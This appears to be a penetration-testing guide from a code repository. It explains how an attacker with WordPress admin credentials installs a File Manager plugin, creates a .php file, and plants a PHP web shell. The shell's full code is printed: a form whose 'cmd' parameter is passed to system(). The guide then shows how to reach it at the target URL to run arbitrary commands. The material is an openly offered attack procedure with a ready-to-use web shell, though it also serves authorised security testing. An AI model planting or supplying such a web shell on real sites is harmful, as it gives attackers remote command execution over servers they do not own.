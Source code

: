 
# Wordpress - Install File Managment Plugin 

In case uploading a plugin was not possible for any reason related to custom wordpress configuration or web server configuration ( Maximum upload size ), you could install a plugin and activate it through another feature.
## Requirements

 - A valid **username and password** of a user with **admin rights** on the Wordpress.

## Exploitation

### Accessing the dashboard

Connect with a user with administrative rights on the Wordpress at [http://TARGET/wp-login.php](http://TARGET/wp-login.php).


### Installing the plugin

- Then go on the "Plugin" --> "Add New" page.

![](./imgs/add_new.png)

- In the next step, type "File Manager" in the search bar and install any of those file managment plugin ( First one recommended ). Active the plugin from the same page after installing it.

![](./imgs/Installing_filemanager.png)

### Using the plugin

- On the side bar, you will find the plugin name, Navigate to its page. 

![](./imgs/plugin_page.png)


- Right click on the icon that is related to creating a new file --> Choose plain txt --> change filename extension from .txt to .php

![](./imgs/creating_new_file.png)

- Select the created file --> Right click --> Navigate to the code editor.

![](./imgs/code_edit.png)


- Paste your php webshell code.


```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>

```

![](./imgs/paste_phpshellcode.png)

- Navigate to the main URL of your target with attaching your created filename into it [http://TARGET/NewFile.php](http://TARGET/NewFile.php)

- Execute the commands.


## References
 - https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
